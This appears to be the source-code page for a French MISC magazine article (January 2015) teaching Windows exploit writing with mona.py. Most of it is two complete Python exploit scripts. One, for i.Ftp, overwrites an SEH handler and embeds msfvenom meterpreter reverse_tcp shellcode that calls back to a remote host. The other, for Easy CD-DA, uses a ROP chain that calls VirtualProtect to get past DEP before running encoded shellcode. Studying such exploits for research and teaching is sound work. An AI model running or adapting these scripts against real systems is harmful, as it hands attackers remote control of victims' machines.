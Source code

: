 MISC numéro 77 - Janvier 2015
=======

### Ramonage de vulns avec mona.py

####Synopsis
Défini par Peter Van Eeckhoutte, son auteur, comme la boite à outils du développement d'exploit en environnement win32, mona.py [1] est un plugin qui fonctionne avec Immunity Debugger et WinDBG. Simple d'utilisation, il a l'énorme avantage de réunir les fonctionnalités de bon nombre d'autres outils tout en s'intégrant dans votre débogueur.
Plutôt que de présenter toutes ses possibilités unes par unes, nous allons à travers des exemples pratiques montrer comment il permet de gagner du temps lors de l'écriture d'exploits en environnement Windows.

#### Remerciements
Merci à Alexandre, André (@andremoulu), Fred (@FredzyPadzy), Inti (@SalasRossenbach) Jérôme (JLeonard), l'équipe MISC (@MISCRedac), Mohamed, Peter (@corelanc0d3r), Saâd (@_saadk) et Thomas pour la relecture et l'inspiration.

#### Les liens
[1] https://github.com/corelan/mona
[2] https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
[3] https://www.corelan.beHYPERLINK "https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/"/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
[4] https://www.corelan.be/index.HYPERLINK "https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/"php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
[5] https://www.hackinparis.com/slides/hip2k11/04-ProjectQuebec.pdf
[6] https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/
[7] http://www.vmware.com/fr/products/player
[8] https://github.com/corelan/windbglib
[9] http://www.exploit-db.com/exploits/35177
[10] http://www.exploit-db.com/exploits/31643
[11] https://community.rapid7.com/community/metasploit/blog/2014/12/09/good-bye-msfpayload-and-msfencode
[12] https://github.com/MISCMag/MISC-79
[13] https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/

#### L'exploit iftp.py (chapitre 4.3)
```
import os,struct,sys
   
outputfile = 'C:\Program Files\Memecode\i.Ftp\Schedule.xml'
size = 20000
offset_to_nseh = 592

junk1 = "A" * offset_to_nseh
nseh = "\xeb\x06\xCC\xCC" # "\xeb\x06" = jmp $+8 = jump to stackadjust
seh = struct.pack('<L',0x10011887) #0x10011887 : pop ecx # pop ecx # ret 0x08 |  {PAGE_EXECUTE_READ} [Lgi.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Memecode\i.Ftp\Lgi.dll)
stackadjust= "\x81\xc4\x24\xfa\xff\xff"	# add esp,-1500
# ./msfvenom -p windows/meterpreter/reverse_tcp exitfunc=thread lhost=1.1.1.5 R -a x86 --platform windows -b '\x00\x0a\x0d\x20\x22\x3c\x3e' -f python
# Found 22 compatible encoders
# Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
# x86/shikata_ga_nai succeeded with size 308 (iteration=0)
buf =  ""
buf += "\xb8\xca\xa4\x97\xb2\xda\xd7\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x47\x83\xc2\x04\x31\x42\x0f\x03\x42\xc5\x46"
buf += "\x62\x4e\x31\x04\x8d\xaf\xc1\x69\x07\x4a\xf0\xa9\x73"
buf += "\x1e\xa2\x19\xf7\x72\x4e\xd1\x55\x67\xc5\x97\x71\x88"
buf += "\x6e\x1d\xa4\xa7\x6f\x0e\x94\xa6\xf3\x4d\xc9\x08\xca"
buf += "\x9d\x1c\x48\x0b\xc3\xed\x18\xc4\x8f\x40\x8d\x61\xc5"
buf += "\x58\x26\x39\xcb\xd8\xdb\x89\xea\xc9\x4d\x82\xb4\xc9"
buf += "\x6c\x47\xcd\x43\x77\x84\xe8\x1a\x0c\x7e\x86\x9c\xc4"
buf += "\x4f\x67\x32\x29\x60\x9a\x4a\x6d\x46\x45\x39\x87\xb5"
buf += "\xf8\x3a\x5c\xc4\x26\xce\x47\x6e\xac\x68\xac\x8f\x61"
buf += "\xee\x27\x83\xce\x64\x6f\x87\xd1\xa9\x1b\xb3\x5a\x4c"
buf += "\xcc\x32\x18\x6b\xc8\x1f\xfa\x12\x49\xc5\xad\x2b\x89"
buf += "\xa6\x12\x8e\xc1\x4a\x46\xa3\x8b\x02\xab\x8e\x33\xd2"
buf += "\xa3\x99\x40\xe0\x6c\x32\xcf\x48\xe4\x9c\x08\xaf\xdf"
buf += "\x59\x86\x4e\xe0\x99\x8e\x94\xb4\xc9\xb8\x3d\xb5\x81"
buf += "\x38\xc2\x60\x05\x69\x6c\xdb\xe6\xd9\xcc\x8b\x8e\x33"
buf += "\xc3\xf4\xaf\x3b\x0e\x9d\x5a\xc1\xd8\xa3\x9b\xc8\x1d"
buf += "\xcc\x99\xca\x0c\x50\x17\x2c\x44\x78\x71\xe6\xf0\xe1"
buf += "\xd8\x7c\x61\xed\xf6\xf8\xa1\x65\xf5\xfd\x6f\x8e\x70"
buf += "\xee\x07\x7e\xcf\x4c\x81\x81\xe5\xfb\x2d\x14\x02\xaa"
buf += "\x7a\x80\x08\x8b\x4c\x0f\xf2\xfe\xc7\x86\x66\x41\xbf"
buf += "\xe6\x66\x41\x3f\xb1\xec\x41\x57\x65\x55\x12\x42\x6a"
buf += "\x40\x06\xdf\xff\x6b\x7f\x8c\xa8\x03\x7d\xeb\x9f\x8b"
buf += "\x7e\xde\x21\xf7\xa8\x26\x54\x19\x69"
junk2 = "C" * (size-len(junk1+nseh+seh+stackadjust+buf))
poc = junk1 + nseh + seh + stackadjust + buf + junk2
header = "\x3c\x3f\x78\x6d\x6c\x20\x76\x65\x72\x73\x69\x6f\x6e\x3d\x22\x31\x2e\x30\x22\x20\x65\x6e\x63\x6f\x64\x69\x6e\x67\x3d\x22"
header += "\x55\x54\x46\x2d\x38\x22\x20\x3f\x3e\x0a\x3c\x53\x63\x68\x65\x64\x75\x6c\x65\x3e\x0a\x09\x3c\x45\x76\x65\x6e\x74\x20\x55"
header += "\x72\x6c\x3d\x22\x22\x20\x54\x69\x6d\x65\x3d\x22\x68\x74\x74\x70\x3a\x2f\x2f\x0a"
footer = "\x22\x20\x46\x6f\x6c\x64\x65\x72\x3d\x22\x22\x20\x2f\x3e\x0a\x3c\x2f\x53\x63\x68\x65\x64\x75\x6c\x65\x3e\x0a"
buffer =  header + poc + footer
print "[+] Creating %s" % outputfile
f = open(outputfile,'wb')
print "[+] Writing %d bytes to file" % len(buffer)
f.write(buffer)
print "[+] Done"
f.close()
```

#### L'exploit easy.py (chapitre 4.4)
```
import os,struct

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x10087fe1,  # POP ECX # RETN [audconv.dll]
      0x0042a0e0,  # ptr to &VirtualProtect() [IAT easycdda.exe]
      0x10041e69,  # MOV EAX,DWORD PTR DS:[ECX] # RETN [audconv.dll]
      0x10035802,  # XCHG EAX,ESI # RETN [audconv.dll]
      0x1000327e,  # POP EBP # RETN [audconv.dll]
      0x00403054,  # & push esp # ret 0x08 [easycdda.exe]
      0x0041c160,  # POP EBX # RETN [easycdda.exe]
      0x00000201,  # 0x00000201-> ebx
      0x1007f883,  # POP EDX # RETN [audconv.dll]
      0x00000040,  # 0x00000040-> edx
      0x10090089,  # POP ECX # RETN [audconv.dll]
      0x00434ce9,  # &Writable location [easycdda.exe]
      0x1005d353,  # POP EDI # RETN [audconv.dll]
      0x100378e6,  # RETN (ROP NOP) [audconv.dll]
      0x1007f18a,  # POP EAX # RETN [audconv.dll]
      0x90909090,  # nop
      0x00429692,  # PUSHAD # INC EBX # ADD CL,CH # RETN [easycdda.exe]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

offset_nseh = 1108	#SEH record (nseh field) at 0x0012f4f4 overwritten with normal pattern : 0x6c42396b (offset 1108)
junk1 = "A" * offset_nseh
nseh = "\x90" * 4
seh = struct.pack('L',0x1001b19b)  		# ADD ESP,0C10 # RETN 0x04 [audconv.dll]
ropnops = struct.pack('L',0x100013ac)  	# RET [audconv.dll]
buf =  ""
buf += "\x81\xc4\x24\xfa\xff\xff"	# add esp,-1500
buf += "\xdb\xc8\xd9\x74\x24\xf4\xb8\x20\xa5\xd2\xfe\x5e\x33"
buf += "\xc9\xb1\x47\x83\xee\xfc\x31\x46\x14\x03\x46\x34\x47"
buf += "\x27\x02\xdc\x05\xc8\xfb\x1c\x6a\x40\x1e\x2d\xaa\x36"
buf += "\x6a\x1d\x1a\x3c\x3e\x91\xd1\x10\xab\x22\x97\xbc\xdc"
buf += "\x83\x12\x9b\xd3\x14\x0e\xdf\x72\x96\x4d\x0c\x55\xa7"
buf += "\x9d\x41\x94\xe0\xc0\xa8\xc4\xb9\x8f\x1f\xf9\xce\xda"
buf += "\xa3\x72\x9c\xcb\xa3\x67\x54\xed\x82\x39\xef\xb4\x04"
buf += "\xbb\x3c\xcd\x0c\xa3\x21\xe8\xc7\x58\x91\x86\xd9\x88"
buf += "\xe8\x67\x75\xf5\xc5\x95\x87\x31\xe1\x45\xf2\x4b\x12"
buf += "\xfb\x05\x88\x69\x27\x83\x0b\xc9\xac\x33\xf0\xe8\x61"
buf += "\xa5\x73\xe6\xce\xa1\xdc\xea\xd1\x66\x57\x16\x59\x89"
buf += "\xb8\x9f\x19\xae\x1c\xc4\xfa\xcf\x05\xa0\xad\xf0\x56"
buf += "\x0b\x11\x55\x1c\xa1\x46\xe4\x7f\xad\xab\xc5\x7f\x2d"
buf += "\xa4\x5e\xf3\x1f\x6b\xf5\x9b\x13\xe4\xd3\x5c\x54\xdf"
buf += "\xa4\xf3\xab\xe0\xd4\xda\x6f\xb4\x84\x74\x46\xb5\x4e"
buf += "\x85\x67\x60\xc0\xd5\xc7\xdb\xa1\x85\xa7\x8b\x49\xcc"
buf += "\x28\xf3\x6a\xef\xe3\x9c\x01\x15\x63\xa2\xd4\x14\x76"
buf += "\xcc\xd4\x16\x69\x50\x50\xf0\xe3\x78\x34\xaa\x9b\xe1"
buf += "\x1d\x20\x3a\xed\x8b\x4c\x7c\x65\x38\xb0\x32\x8e\x35"
buf += "\xa2\xa2\x7e\x00\x98\x64\x80\xbe\xb7\x88\x14\x45\x1e"
buf += "\xdf\x80\x47\x47\x17\x0f\xb7\xa2\x2c\x86\x2d\x0d\x5a"
buf += "\xe7\xa1\x8d\x9a\xb1\xab\x8d\xf2\x65\x88\xdd\xe7\x69"
buf += "\x05\x72\xb4\xff\xa6\x23\x69\x57\xcf\xc9\x54\x9f\x50"
buf += "\x31\xb3\x21\xac\xe4\xfd\x57\xdc\x34"
junk2 = "B" * 10000

buffer = junk1 + nseh + seh + ropnops * 23 + rop_chain + buf + junk2

print "[+] Length of total buffer: %s" % len(buffer)
print "[+] Writing sploit in c:\\temp\\ecr.pls"
file = open('c:\\temp\\ecr.pls','wb')
file.write(buffer)
file.close()
```
